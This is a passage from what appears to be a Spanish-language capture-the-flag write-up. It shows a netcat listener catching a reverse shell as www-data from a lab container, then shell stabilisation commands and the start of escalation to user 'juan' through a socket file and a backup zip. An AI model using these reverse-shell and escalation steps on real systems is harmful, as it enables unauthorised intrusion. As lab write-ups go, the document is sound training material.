 ```shell
nc -lvnp <PORT>
```

Vamos a darle a `Guardar Cambios`, le daremos a `Casa`, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 55062
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a `sanitizar` la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user juan

Si listamos la carpeta `/tmp` veremos el siguiente archivo:

```
total 8
drwxrwxrwt 1 root root 4096 Jun  9 12:03 .
drwxr-xr-x 1 root root 4096 Jun  9 08:52 ..
srwxrwxrwx 1 juan juan    0 Jun  9 08:52 dev.sock
```

Vemos lo que parece una configuracion de un `socket` a algo, por lo que vamos a realizar una busqueda a ver si hubiera algun archivo respecto a dicho `socket`.

```shell
find / \( -path /usr -o -path /proc \) -prune -o -name "sock*" -print 2>/dev/null
```

Info:

```
/run/apache2/socks
/etc/systemd/system/sockets.target.wants
/etc/php/8.3/mods-available/sockets.ini
/sys/kernel/slab/sock_inode_cache
/var/backups/socket.zip
/var/lib/systemd/deb-systemd-helper-enabled/sockets.target.wants
/var/lib/php/modules/8.3/cli/enabled_by_maint/sockets
/var/lib/php/modules/8.3/apache2/enabled_by_maint/sockets
/var/lib/php/modules/8.3/registry/sockets
```
